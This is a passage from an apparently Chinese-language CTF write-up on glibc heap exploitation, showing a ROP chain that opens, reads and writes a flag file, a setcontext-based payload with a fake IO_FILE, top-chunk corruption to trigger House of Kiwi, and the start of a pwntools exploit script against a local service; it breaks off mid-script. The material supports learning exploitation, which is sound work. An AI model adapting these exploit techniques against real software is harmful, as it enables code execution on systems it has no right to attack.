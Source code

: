 ```plain
rop_data = [
    pop_rax_addr,  # sys_open('flag', 0)
    2,
    syscall_addr,

    pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
    0,
    pop_rdi_addr,
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr,

    pop_rax_addr,  # sys_write(1, heap, 0x100)
    1,
    pop_rdi_addr,
    1,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr
]
payload = p64(0) + p64(fake_frame_addr) + '\x00' * 0x10 + p64(setcontext_addr + 61)
payload += str(frame).ljust(0xF8, '\x00')[0x28:] + 'flag'.ljust(0x10, '\x00') + flat(rop_data)

edit(0, fake_IO_FILE)
edit(2, payload)
```

最后改 topchunk size 构造 House of kiwi 触发 malloc\_assert

```plain
# change top chunk size
delete(7)
add(8, 0x430)
edit(7, 'a' * 0x438 + p64(0x300))
run_opcode()
add(8, 0x450)  # House OF Kiwi
# gdb.attach(sh, "b _IO_cookie_write")
run_opcode()
```

完整 exp：

```plain
from pwn import *

context.log_level = "debug"
context.arch = "amd64"
# sh = process('./pwn')
sh = remote('127.0.0.1', 9999)
libc = ELF('./lib/libc.so.6')
all_payload = ""


def ROL(content, key):
    tmp = bin(content)[2:].rjust(64, '0')
    return int(tmp[key:] + tmp[:key], 2)


def add(idx, size):
    global all_payload
    payload = p8(0x1)
    payload += p8(idx)
    payload += p16(size)
    all_payload += payload
```